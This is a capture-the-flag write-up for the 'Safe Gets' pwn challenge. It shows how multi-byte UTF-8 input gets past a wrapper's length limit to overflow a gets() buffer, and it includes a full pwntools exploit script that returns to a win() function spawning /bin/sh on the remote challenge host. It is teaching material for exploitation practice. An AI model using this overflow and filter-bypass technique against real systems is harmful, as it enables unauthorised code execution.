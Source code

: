 ```yaml
---
title: Safe Gets
type: writeup
date: 2025-07-14T21:42:41+03:00
description: Writeup for Safe Gets [L3akCTF_2025s]
author: vikcoc
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I think I found a way to make gets safe.

## Intuition

If we take a look at it with Ghidra
```asm
        004011a5 48 8d 85        LEA        RAX=>local_118,[RBP + -0x110]
                 f0 fe ff ff
        004011ac 48 89 c7        MOV        RDI,RAX
        004011af b8 00 00        MOV        EAX,0x0
                 00 00
        004011b4 e8 e7 fe        CALL       FUN_004010a0                                     undefined FUN_004010a0()
                 ff ff
```
Where `FUN_004010a0` is just `gets`, we are given the entry point for a ROP exploit.\
A close look at other functions packaged in the executable also shows our destination.
```C
void win(void)

{
  system("/bin/sh");
  return;
}
```

## Solution

If we take a look at the protections enabled on the binary:
```bash
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
We see that no leak is needed, as the code is not Position Independent.\
The challenge comes from the wrapper that filters our inputs.
```python
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
# print(payload)
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```
If the first line is longer than `0xff` characters it gets denied, but the overflow requres around `0x110` bytes.\
A hint to help us bypass this limitation is given further down.
```python
        proc.stdin.write(line.encode('latin1'))
        proc.stdin.flush()
```
This has something to do with encoding.\
For UTF-8[^1] we learn that a character can be multiple bytes long, for example `অ` is 3 bytes long. Therefore sending the next line generates enough bytes for an overflow while remaining within the character count.
```python
pwin = 0x401262
paywin1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'aa' + pwn.p64(pwin)
target.sendlineafter(b'(max 255 bytes)', paywin1)
```
Now we get a stack not aligned error.\
No problem, we can jump back to main to align the stack. But doing that raises an error in the wrapper, that it cannot decode the input to utf-8.\
The Wikipedia article on UTF-8[^1] gives us information to make sense of that:
- 1 byte characters are of the form `0yyyzzzz`
- 2 byte characters are of the form `110xxxyy` `10yyzzzz`
- 3 byte characters are of the form `1110wwww` `10xxxxyy` `10yyzzzz`
- 4 byte characters are of the form `11110uvv` `10vvwwww` `10xxxxyy` `10yyzzzz`

In the address of main we have byte `0x96`. It is `10010110`, a valid encoding for at least the second byte in a UTF-8 character.\
Luckily for us, we are dealing with a little endian architecture, and `0x96` is the last byte in the address. That makes `0x96` the first byte that is not padding. This means that we can choose a byte of the form `110xxxyy` for the last padding byte, for example `0xC2`. It and our problem byte together form a valid character.

```python
pmain = 0x401196
paymain1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'a\xC2' + pwn.p64(pmain)
print(target.sendlineafter(b'(max 255 bytes)', paymain1).decode())
```
Another thing to note is that for the rest of the lines the wrapper encodes to `latin1`, and it removes the size limit, which necessitates another small adjustment.\
For a full exploit we would have:
```python
import pwn
pwn.context.terminal = ['konsole', '-e']

target = pwn.remote('34.45.81.67', 16002)

pmain = 0x401196
pwin = 0x401262

paymain1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'a\xC2' + pwn.p64(pmain)
print(target.sendlineafter(b'(max 255 bytes)', paymain1).decode())

paywin2 = b'/bin/sh'[::-1] + b'\0' + b'b' * 0x10E + b'aa' + pwn.p64(pwin)
print(target.sendlineafter(b'/bin/sh', paywin2, timeout=2).decode())

target.interactive()
```
After that we get a shell and take the flag.

### Flag

`L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}`

## References

[^1]: https://en.wikipedia.org/wiki/UTF-8#Description

